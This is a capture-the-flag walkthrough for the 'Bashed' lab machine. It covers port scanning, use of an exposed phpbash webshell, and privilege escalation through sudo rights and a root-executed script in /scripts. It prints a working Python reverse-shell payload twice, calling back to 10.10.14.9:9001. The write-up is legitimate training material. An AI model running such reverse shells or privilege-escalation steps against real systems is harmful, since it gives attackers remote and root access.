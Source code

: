 
![bashed](/assets/basheddefault.png)

## Enumeration

Starting off with an nmap scan: `nmap -sC -sV -O -oA nmap/bashed 10.10.10.68`

Ports open:        
1. 80 - http. 

We can see that only port 80 is open. So, we can try and run our basic tools such as dirb, nikto, etc. 
After doing some enumeration, we find out that there is a webshell running on: `http://10.10.10.68/phpbash.php`. 


![bashed homepage](/assets/bashedhomepage.png)



We can navigate through the files and directories of the webshell, but we cannot switch or privesc to another user, as it spawns a new shell every time we type a new command.   
We can then use netcat to get a rev shell back to our machine and then privesc from there. 
But ncat, nc, netcat doesn't seem to work, so we tried a python shell and it worked. 
Payload used:   
  `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`.  
  
## Exploitation
Setting up a netcat listener on our machine and then catching the shell:
![shell](/assets/shell.png)

## Privilege Escalation
After looking around the local filesystem we found out that there is a user called **scriptmanager**. 
After using `sudo -l` to list the sudo permissions which we can perform, this is what we get:  

![sudo priv](/assets/sudopriv.png)


As we can see that we can run any command as the scriptmanager user. 
Hence, we run the bash binary as the user scriptmanager to switch user to scriptmanager:  
`sudo -u scriptmanager /bin/bash`. 

And we our now the user scriptmanager!   

Now we need to escalate our privileges to root. 
Again looking around in the local filesystem we find out that there is a /scripts directory in the root of the filesystem. 
We notice that there is a /scripts dir present on the machine which is odd.
-After going into that dir, we can see that there are 2 files:
---test.py. 
---test.txt. 

scriptmanager@bashed:/scripts$ cat test.py. 
cat test.py
f = open('test.txt', 'w')
f.write('testing123!')
f.close


We can then see that the test.txt file has the contents testing123!
So, now we know that the file is/can be written somehow from the py file which is present. 

So, we create a different file with the same code. 

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('lego')
f.close



-And now we can see that the file yes.py is owned by root.
-That means that whatever we execute from the yes.py file we can get root from it.


-So we can insert the same py rev shell payload which we used earlier:

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
f.close. 

Now, we setup a netcat listener on our machine to catch the reverse shell:  
![root](/assets/shell2.png)

And now we are ROOT!!!!



